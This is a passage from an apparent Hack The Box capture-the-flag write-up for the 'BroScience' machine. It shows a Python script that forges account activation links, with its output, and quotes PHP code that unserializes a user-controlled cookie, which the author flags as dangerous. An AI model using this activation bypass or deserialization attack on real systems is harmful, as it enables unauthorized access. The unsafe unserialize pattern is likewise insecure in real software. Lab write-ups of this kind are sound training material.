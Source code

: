 ```python
requests.post("https://broscience.htb/register.php",data=data, verify=False)

activation_url = f"https://broscience.htb/activate.php?code={code}"

print(f"Username: {username}, password: {password}, activation link: {activation_url}")
```

When i run the code
```
❯ python3 activate.py                                                                                                         
Username: jan508, password: password, activation link: https://broscience.htb/activate.php?code=XiNoXaVh5J7VxFDdMPlEqFNu9ioPqhjU
```

When i click the activation url, i get a success message, and i can login to the application with the provided credentials.

<img src=/assets/screenshots/htb-broscience/web-logged.png>

Not much changed on the website, except i can now write comments on the posts and switch to a dark theme. I tried to do some SQL injection in the comments, but it didn't work, and i even have the source code to see that it is not really vulnerable.

I look at the code that provides the theme switching functionality, and it does deserialization on user-provided input, which is always dangerous.

```php
class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
```